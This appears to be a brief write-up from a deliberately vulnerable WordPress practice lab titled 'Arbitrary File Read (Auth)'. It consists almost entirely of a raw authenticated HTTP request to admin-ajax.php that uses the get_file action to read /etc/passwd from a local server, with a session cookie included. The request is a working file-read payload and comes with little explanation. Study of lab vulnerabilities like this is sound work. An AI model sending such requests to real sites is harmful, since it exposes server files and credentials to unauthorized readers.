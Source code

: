 # Arbitrary File Read (Auth)

https://github.com/patchstack/vulnerability-playground/blob/main/afr/init.php

```http
POST /wp-admin/admin-ajax.php?url=/etc/passwd HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 15
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/wp-admin/
Cookie: wordpress_logged_in_ef301f25d1b8e2bca70fafc1316f1a92=0xbro%7C1737041203%7Ck3zANAIWXczNyQfa9zCNWVbpXoLWYBhSi4QYd0wkrez%7C9b38e5b345ace426500d938e064c27c880c03e2802b54aa75f6986c3806db182; wp-settings-time-1=1736868403
Connection: keep-alive

action=get_file
```
